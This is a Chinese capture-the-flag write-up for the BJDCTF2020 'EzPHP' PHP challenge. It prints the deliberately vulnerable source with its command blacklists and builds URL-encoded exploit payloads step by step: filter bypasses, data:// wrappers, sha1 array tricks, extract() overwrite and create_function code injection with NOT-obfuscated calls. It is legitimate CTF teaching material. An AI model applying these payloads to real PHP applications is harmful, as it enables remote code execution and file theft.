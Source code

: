 # \[BJDCTF2020]EzPHP

### \[BJDCTF2020]EzPHP

## 考点

* `$_SERVER` 获取HTTP传入参数的脆弱性
* `preg_match`脆弱性
* PHP伪协议bypass 字符串相同限制
* &#x20;create\_function创建匿名函数
* PHP7 取反bypass代码执行

## wp

F12给了提示，`base32`解码得到`1nD3x.php`

<div data-full-width="true">

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

访问得到源码

{% code overflow="wrap" lineNumbers="true" fullWidth="true" %}
```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```
{% endcode %}

<mark style="background-color:red;">第一个</mark>`preg_match`在第15行

`$_SERVER['QUERY_STRING']`返回请求的参数和内容，访问`http://ip:port/1nD3x.php?shana=1&passwd=2`会返回`shana=1&passwd=2`，请求的参数有黑名单

<mark style="background-color:blue;">绕过</mark>`$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过

<mark style="background-color:red;">第二个</mark>`preg_match`在第20行

GET请求的file参数不包含http或https

<mark style="background-color:red;">第三个</mark>`preg_match`在第21行

GET请求的debu参数必须是aqua\_is\_cute且不是aqua\_is\_cute

<mark style="background-color:blue;">绕过</mark>`preg_match`在非`/s`模式下，会忽略末尾的%0a，所以末尾加上%0a即可

`file=padding&debu=aqua_is_cute`

`%66%69%6c%65=%70%61%64%64%69%6e%67&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a`

<mark style="background-color:red;">第四个</mark>`preg_match`在第29行

$\_REQUEST获取所有GET和POST传入的参数和值，并以数组形式返回。

比如POST请求`http://ip:port/?a=1&d=4 POST b=2`会返回`array(3) { 'a' => string(1) "1" 'd' => string(1) "4" 'b' => string(1) "2" }`要求请求的值不含有英文字符

<mark style="background-color:blue;">绕过</mark>$\_REQUEST获取的参数默认POST优先级大于GET，所以POST再传入`file=1&debu=2`



<mark style="background-color:red;">第34行</mark>`if`语句要求`file_get_contents($file)`的内容必须为`debu_debu_aqua`

<mark style="background-color:blue;">绕过</mark>这个有两种方式绕过，一个是`php://input` 加POST `debu_debu_aqua` ，很明显不行

另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`

%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a



<mark style="background-color:red;">第38行</mark>`if`语句要求传入的shana和passwd值不同且sha1相同

<mark style="background-color:blue;">绕过</mark>用数组绕过

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32`

这里不需要再POST参数，因为GET传的是数组，<mark style="background-color:red;">第四个</mark>`preg_match`的$value也是个数组，`preg_match`遇到数组会报错

然后`extract($_GET["flag"]);`存在变量覆盖



<mark style="background-color:red;">第五个</mark>`preg_match`在第45行 i不区分大小写 s视为单行，匹配换行符 D让$总是匹配字符串的末尾

$arg有黑名单，$code不能由纯英文数字组成，必须形如var\_dump print\_r

这里使用变量覆盖对$code和$arg赋值

```
$code('', $arg);
```

这种形式就是create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码

```php
create_function('$a,$b', $arg)

eval(
\000lambda_1($a,$b){
    $arg
}
)
```

$arg的黑名单有pi \* sess head 根据<mark style="background-color:purple;">无参RCE</mark>的思路能用的只剩get\_defined\_vars()

根据代码执行还可以用取反

所以在本题就是code=create\_function  arg=}var\_dump(get\_defined\_vars());//

或者arg=}(\~%8F%97%8F%96%91%99%90)();//

```
eval(
\000lambda_1(){
    }var_dump(get_defined_vars());//
}
)
```

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}var_dump(get_defined_vars());//`

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

读取rea1fl4g.php

`readfile('rea1fl4g.php')`取反

{% code overflow="wrap" lineNumbers="true" %}
```
http://31e9b523-a95b-4c3a-8bd6-0a322f1d383f.node4.buuoj.cn:81/1nD3x.php?%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}(~%8D%9A%9E%9B%99%96%93%9A)((~%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

file=1&debu=2
```
{% endcode %}

## 小结

1. `$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过
2. create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码
3.  伪协议绕过字符串限制，一个是`php://input` 加POST `debu_debu_aqua` ，

    另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`
4. `preg_match`在非`/s`模式下，会忽略末尾的%0a
5. `preg_match`传入数组会报错
